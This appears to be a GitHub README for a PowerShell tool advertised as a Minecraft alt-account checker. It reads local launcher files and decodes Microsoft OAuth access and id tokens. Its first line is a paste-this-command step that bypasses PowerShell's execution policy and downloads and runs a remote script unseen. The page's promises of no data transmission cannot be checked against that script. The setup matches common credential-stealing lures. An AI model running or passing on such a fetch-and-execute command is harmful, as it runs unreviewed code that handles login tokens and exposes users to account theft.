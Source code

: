 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alt-checker_v2.ps1')"`**

**🛠️ Minecraft Alts Checker Tool**
A PowerShell utility for analyzing Minecraft accounts stored locally by various launchers, with JWT token decoding capabilities.

🔍 **Features**

 - **Account Analysis**
   - View locally stored Minecraft accounts from:
      - TLauncher
      - Official Minecraft Launcher
   - Detect Microsoft OAuth tokens (`accessToken/id_token`)
   - JWT token decoding with claims inspection

 - **Forensic Capabilities**
   - Parses these key files:
      - `%APPDATA%\.minecraft\TlauncherProfiles.json`
      - `%APPDATA%\.minecraft\launcher_accounts.json`
      - `%APPDATA%\.minecraft\usernamecache.json`
      - `%APPDATA%\.minecraft\usercache.json`

📋 **Account Information Display**

 - For each found account, shows:
   - Username
   - UUID
   - Account type
   - Microsoft token presence (✅/❌)
   - Decoded JWT claims (when available)

🔐 **JWT Decoding**

 - The built-in Decode-Jwt function:
   - Accepts JWT tokens (`accessToken or id_token`)
   - Splits and base64-decodes the payload
   - Returns readable JSON claims in table format

⚠️ **Requirements**

 - Windows PowerShell 5.1+
 - Administrative privileges (for deleted file search)
 - Minecraft/TLauncher installation

📜 **Legal Notice**

 - This tool is intended solely for personal use and debugging purposes. It must not be used to:
   - Violate any terms of service
   - Access unauthorized accounts
   - Conduct illegal activities
 - **The author disclaims all responsibility for misuse of this software.**

🛡️ **Security Note**

 - The script:
   - Runs locally without external data transmission
   - Requests minimal necessary permissions
   - Provides transparent account inspection

***`Not affiliated with Mojang Studios or Microsoft. Minecraft is a trademark of Mojang Studios.`***
